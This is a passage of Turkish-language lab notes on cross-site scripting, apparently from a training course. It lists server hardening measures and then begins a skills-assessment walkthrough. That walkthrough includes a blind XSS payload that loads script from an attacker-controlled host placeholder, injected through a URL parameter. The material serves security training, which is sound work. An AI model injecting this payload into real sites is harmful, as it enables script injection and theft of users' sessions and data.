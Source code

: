
#### Server Configuration

* Tüm domain genelinde HTTPS kullanma.
* XSS önleme başlıklarını kullanma.
* X-Content-Type-Options=nosniff gibi sayfa için uygun Content-Type kullanımı.
* Yalnızca local olarak barındırılan komut dosyalarına izin veren script-src 'self' gibi Content-Security-Policy seçeneklerini kullanmak.
* JavaScript'in cookie'leri okumasını önlemek ve sadece HTTPS üzerinden aktarmak için HttpOnly ve Secure cookie bayraklarını kullanmak.

Yukarıdakilere ek olarak, iyi bir Web Uygulaması Güvenlik Duvarı'na (WAF) sahip olmak, HTTP isteklerinden geçen her türlü enjeksiyonu otomatik olarak algılayacağından ve bu tür istekleri otomatik olarak reddedeceğinden, XSS istismarı olasılığını önemli ölçüde azaltabilir. Ayrıca, ASP.NET gibi bazı frameworkler yerleşik XSS koruması sağlar.


# Skills Assessment

/assessment dizinine erişin:

![Pasted image 20241117051049.png](/img/user/resimler/Pasted%20image%2020241117051049.png)

![Pasted image 20241117051057.png](/img/user/resimler/Pasted%20image%2020241117051057.png)

Hangi girdi'de bu istek geldi  ?  Url parametresinde kullandığımız payload sonuc verdi . 

"><script src=http://OUR_IP></script>


![Pasted image 20241117051713.png](/img/user/resimler/Pasted%20image%2020241117051713.png)

![Pasted image 20241117051726.png](/img/user/resimler/Pasted%20image%2020241117051726.png)
